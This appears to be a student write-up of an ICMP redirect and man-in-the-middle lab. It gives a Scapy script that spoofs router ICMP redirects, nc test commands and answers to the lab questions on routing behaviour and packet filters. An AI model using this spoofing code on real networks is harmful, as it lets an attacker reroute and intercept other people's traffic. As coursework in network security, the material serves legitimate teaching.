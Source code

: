 # ICMP Redirect

## Task 1: Launching ICMP Redirect Attack

![image-20220306005833632](ICMP Redirect.assets/image-20220306005833632.png)

```python
#!/usr/bin/python3
from scapy.all import *
ip = IP(src = "10.9.0.11", dst = "10.9.0.5") # pretend to be router
icmp = ICMP(type=5, code=1) # ICMP redirect
icmp.gw = "10.9.0.111"
# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = "10.9.0.5", dst = "192.168.60.5")
send(ip/icmp/ip2/ICMP());
```

![image-20220306005807082](ICMP Redirect.assets/image-20220306005807082.png)

* Question 1: Can you use ICMP redirect attacks to redirect to a remote machine? Namely, the IP address assigned to icmp.gw is a computer not on the local LAN. Please show your experiment result, and explain your observation.

先使用`ip route flush cache`在victim上清除cache。然后修改脚本，将`icmp.gw`改为`1.2.3.4`，重复实验，发现ICMP重定向攻击不成功，依然选择了正确的路由器。

![image-20220306010047691](ICMP Redirect.assets/image-20220306010047691.png)

* Question 2: Can you use ICMP redirect attacks to redirect to a non-existing machine on the same network? Namely, the IP address assigned to icmp.gw is a local computer that is either offline or non-existing. Please show your experiment result, and explain your observation.

先使用`ip route flush cache`在victim上清除cache。然后修改脚本，将`icmp.gw`改为`10.9.0.112`，重复实验，发现ICMP重定向攻击不成功，依然选择了正确的路由器。

![image-20220306010241077](ICMP Redirect.assets/image-20220306010241077.png)

* Question 3: If you look at the docker-compose.yml file, you will find the following entries for the malicious router container. What are the purposes of these entries? Please change their value to 1, and launch the attack again. Please describe and explain your observation.

  ```
  sysctls:
  - net.ipv4.conf.all.send_redirects=0
  - net.ipv4.conf.default.send_redirects=0
  - net.ipv4.conf.eth0.send_redirects=0
  ```

  

将上述参数的0改为1后，上述攻击均不成功。这些参数用于指定是否发送重定向包。如果设为1，那么在attacker发送ICMP重定向包后，victim以malicious router作为网关，又会收到malicious router的重定向包，最终重定向回正确的路由，攻击失败。

![image-20220306014131343](ICMP Redirect.assets/image-20220306014131343.png)

## Task 2: Launching the MITM Attack



malicious router:

```shell
# sysctl net.ipv4.ip_forward=0
# mitm.py
```



victim:

```shell
# nc 192.168.60.5 9090
```



![image-20220310103132617](ICMP Redirect.assets/image-20220310103132617.png)

192.168.60.5:

```shell
# nc -lp 9090
```



![image-20220310103149502](ICMP Redirect.assets/image-20220310103149502.png)

* Question 4: In your MITM program, you only need to capture the traffics in one direction. Please
  indicate which direction, and explain why.

  只需要捕捉从victim发往192.168.60.5的流量。

* Question 5: In the MITM program, when you capture the nc traffics from A (10.9.0.5), you can
  use A’s IP address or MAC address in the filter. One of the choices is not good and is going to create
  issues, even though both choices may work. Please try both, and use your experiment results to show
  which choice is the correct one, and please explain your conclusion.

  用IP地址过滤：`tcp and src 10.9.0.5`

  用MAC地址过滤：`tcp and ether src 02:42:0a:09:00:05`（MAC地址是victim的MAC地址）

  应当使用MAC地址过滤，因为用IP地址过滤会产生源源不断地输出，而用MAC地址过滤时，每当victim向192.168.60.5发送包时只会产生一个输出。

  

